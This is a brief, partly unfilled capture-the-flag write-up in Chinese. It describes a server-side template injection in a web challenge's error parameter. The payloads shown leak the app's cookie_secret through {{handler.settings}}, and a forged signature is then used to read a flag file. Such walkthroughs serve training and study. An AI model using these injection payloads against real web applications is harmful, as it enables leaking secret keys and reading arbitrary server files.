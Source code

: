 ##  (Title)

##  Tools

NULL

##  Steps

* Step 1 
报错时的error参数存在模板注入
```http://49.4.78.81:30980/error?msg={{1^0}}
```
提交
```http://49.4.78.81:30980/error?msg={{handler.settings}}
```
可以看到cookie_secret
伪造签名读取flag
```http://49.4.78.81:30980/file?filename=/fllllllllllag&signature=7bae09c2c6e2f6aa34df7dbee23db960
```


- Step 2

XXX


